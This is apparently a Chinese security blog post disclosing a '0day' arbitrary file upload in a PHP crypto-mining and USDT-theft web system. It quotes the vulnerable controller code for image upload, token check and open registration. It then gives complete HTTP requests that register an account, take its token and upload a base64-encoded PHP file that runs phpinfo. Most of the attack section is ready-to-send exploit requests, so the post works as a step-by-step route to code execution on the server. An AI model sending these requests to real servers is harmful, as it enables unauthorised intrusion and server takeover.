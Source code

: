 #  【0day】某无提示云挖矿4链盗u系统前台文件上传漏洞   
原创 Mstir  星悦安全   2025-05-26 05:52  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**项目编号:10033      内部编号:XY-101547**  
  
**无授权提示云挖矿4链盗u系统，修复后台无法登录问题，代码全开源无后门，优化后台模板 修复刷新余额报错问题，去授权提示 带最新4链提币接口 后台可直接提币.**  
  
**Fofa指纹：系统敏感，不予提供**  
  
****## 0x01 漏洞分析&复现  
  
**位于 /app/data/controller/api/auth/Center.php 控制器的image 方法，通过post传入base64参数，直接被带入Storage::instance 方法中，且未加过滤，导致漏洞产生.**  
  
****  
```
/*** Base64 图片上传*/publicfunction image()  {    try {      $data = $this->_vali(['base64.require' => '图片内容不为空！']);      if (preg_match('|^data:image/(.*?);base64,|i', $data['base64'])) {        [$ext, $img] = explode('|||', preg_replace('|^data:image/(.*?);base64,|i', '$1|||', $data['base64']));        $info = Storage::instance()->set(Storage::name($img, $ext ?: 'png', 'image/'), base64_decode($img));        $this->success('图片上传成功！', ['url' => $info['url']]);      } else {        $this->error('解析内容失败！');      }    } catch (HttpResponseException $exception) {      throw $exception;    } catch (\Exception $exception) {      $this->error($exception->getMessage());    }  }
```  
  
  
**要调用这个接口仅需登录权限，且可以直接通过接口注册**  
  
**/app/data/controller/api/Auth.php 这里的 initialize 所需要参数都可以传参.**  
  
```
protected function initialize()  {    // 接收接口类型    $this->type = $this->request->request('api');    $this->type = $this->type ?: $this->request->header('api-name');    $this->type = $this->type ?: $this->request->header('api-type');    // 检查接口类型    if (empty($this->type)) {      $this->error("未获取到接口类型字段！");    }    if (!isset(UserAdminService::TYPES[$this->type])) {      $this->error("接口类型[{$this->type}]未定义！");    }    // 获取用户数据    $this->user = $this->getUser();    $this->uuid = $this->user['id'] ?? '';    if (empty($this->uuid)) {      $this->error('用户登录失败！', '{-null-}', 401);    }  }/**     * 获取用户数据     * @return array     */protectedfunction getUser(): array  {    try {      if (empty($this->uuid)) {        $token = input('token') ?: $this->request->header('api-token');        if (empty($token)) $this->error('登录认证TOKEN不能为空！');        [$state, $info, $this->uuid] = UserTokenService::instance()->check($this->type, $token);        if (empty($state)) $this->error($info, '{-null-}', 401);      }      return UserAdminService::instance()->get($this->uuid, $this->type);    } catch (HttpResponseException $exception) {      throw $exception;    } catch (\Exception $exception) {      $this->error($exception->getMessage());    }  }
```  
  
  
**这里路由的登录接口在 /app/data/controller/api/Login.php 控制器的 register 方法**  
  
```
/*** 用户统一注册入口* @throws \think\admin\Exception* @throws \think\db\exception\DbException*/publicfunction register()  {    $data = $this->_vali([                         'region_province.default' => '',                         'region_city.default'     => '',                         'region_area.default'     => '',                         'username.default'        => '',                         'phone.mobile'            => '手机号码格式错误！',                         'phone.require'           => '手机号码不能为空！',                         // 'verify.require'          => '验证码不能为空！',                         'password.require'        => '登录密码不能为空！',                         ]);    // if (MessageService::instance()->checkVerifyCode($data['verify'], $data['phone'])) {    //     @验证码验证能完    // } else {    //     $this->error('验证失败！');    // }    $map = ['phone' => $data['phone'], 'deleted' => 0];    if ($this->app->db->name($this->table)->where($map)->count() > 0) {      $this->error('手机号已注册，请使用其它手机号！');    }    $data['password'] = md5($data['password']);    $user = UserAdminService::instance()->set($map, $data, $this->type, true);    empty($user) ? $this->error('手机注册失败！') : $this->success('用户注册成功！', $user);  }
```  
  
  
**Payload:**  
  
****  
```
POST /data/api.login/register HTTP/1.1Host: 192.168.200.128Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Length: 33phone=13000000000&password=123456
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5doRIWT64jF0IYyOmp9NuaqoHywZPtwXEeeBe8kaIGfPaUOQS7XI3jc3POqCvViaP4ibZQl7mEMxIGQ/640?wx_fmt=other&from=appmsg "")  
  
**这里就获取到了Token，然后直接发包 Payload(注意这里 api-token 要换成你上面获取到的token):**  
  
****  
```
POST /data/api.auth.center/image HTTP/1.1Host: 192.168.200.128Content-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7api-token: 85449b8d46cd00ca5f15611aa0c6e44aapi-type: wapConnection: closeContent-Length: 65base64=data:image/php;base64,ZnVja3lvdTw/cGhwIHBocGluZm8oKTs/Pg==
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5doRIWT64jF0IYyOmp9NuaqgmbsU6kDIZ4icoWwicwgX4dCYZJB0PjyVNAibiaM5m2BBWhfk4iaXm4r7Qw/640?wx_fmt=other&from=appmsg "")  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5doRIWT64jF0IYyOmp9NuaqvrvicfYkYuHibenDWxL9d3jdGGM3vY2f8TThoT9jRS8fb0akagJtazaQ/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**漏洞文件源码关注公众号发送 250526 获取!**  
  
****  
  
  
代码审计  
公开课，  
仿真靶场将于不久后上线，有兴趣可加下群，发广告直接踢，仅交流技术.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5doRIWT64jF0IYyOmp9NuaqF8W2VFkaZHBhU4HNkxiclX7ZoFQvNXR4vhmC8s4WIgBnwNAbX2eFDjA/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
